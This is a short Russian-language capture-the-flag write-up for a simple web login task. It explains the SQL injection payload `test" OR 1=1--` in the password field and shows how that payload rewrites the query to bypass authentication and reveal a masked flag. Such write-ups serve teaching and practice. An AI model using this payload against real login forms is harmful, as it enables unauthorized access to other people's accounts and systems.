 # Базовая авторизациа: Write-up #
Попадая на сайт, видим простенькую формочку для входа. Вводим тестовые креды и получаем `User ID: 1`

Попробуем в такую формочку засунуть SQL-инъекцию. Обычно простейший запрос в форме входа выглядит так:
```SQL
SELECT * FROM users WHERE username="admin" AND password="password";
```
И если backend сайта оформлен беспечно, т.е. нет фильтров на данные, получаемые от пользователя (или если это бейби-таск на веб), то можно самому редактировать запрос.
Если засунуть кавычки в `username`, получим ошибку. А вот в `password` так можно сделать, так что при пароле `test" OR 1=1--` наш запрос будет таким:
```SQL
SELECT * FROM users WHERE username="admin" AND password="test" OR 1=1--";
```
И вышеприведённый запрос будет равносилен этому:
```SQL
SELECT * FROM users WHERE username="admin";
```
`--` превращает весь оставшийся кусок запроса справа в комментарий, так мы избавимся от лишней кавычки.

 Пробуем `admin` и `test" OR 1=1--`:
 
    FLAG: CODEBY{************}
